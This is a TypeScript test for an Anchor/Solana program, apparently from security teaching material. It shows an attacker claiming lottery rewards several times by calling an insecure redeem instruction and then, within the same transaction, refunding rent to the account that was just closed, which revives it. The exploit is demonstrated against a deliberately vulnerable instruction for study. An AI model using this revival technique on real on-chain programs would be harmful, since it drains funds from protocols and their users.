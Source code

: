 ```typescript
it("allows attacker to close + refund lottery account + claim multiple rewards", async () => {
  try {
    const [attackerLotteryEntry] = PublicKey.findProgramAddressSync(
      [Buffer.from("test-seed"), authority.publicKey.toBuffer()],
      program.programId,
    );

    // Claim multiple times
    for (let i = 0; i < 2; i++) {
      const tx = new anchor.web3.Transaction();

      // Instruction claims rewards, program will try to close account
      tx.add(
        await program.methods
          .redeemWinningsInsecure()
          .accounts({
            userAta: attackerAta,
            rewardMint: rewardMint,
            user: authority.publicKey,
          })
          .signers([authority])
          .instruction(),
      );

      // User adds instruction to refund dataAccount lamports
      const rentExemptLamports =
        await provider.connection.getMinimumBalanceForRentExemption(82);
      tx.add(
        SystemProgram.transfer({
          fromPubkey: authority.publicKey,
          toPubkey: attackerLotteryEntry,
          lamports: rentExemptLamports,
        }),
      );

      // Send transaction
      await provider.sendAndConfirm(tx, [authority]);

      // Wait for 5 seconds
      await new Promise(resolve => setTimeout(resolve, 5000));
    }

    const tokenAcct = await getAccount(provider.connection, attackerAta);
    const lotteryEntry =
      await program.account.lotteryAccount.fetch(attackerLotteryEntry);

    expect(Number(tokenAcct.amount)).to.equal(
      lotteryEntry.timestamp.toNumber() * 10 * 2,
    );
  } catch (error) {
    throw new Error(`Test failed: ${error.message}`);
  }
});
```
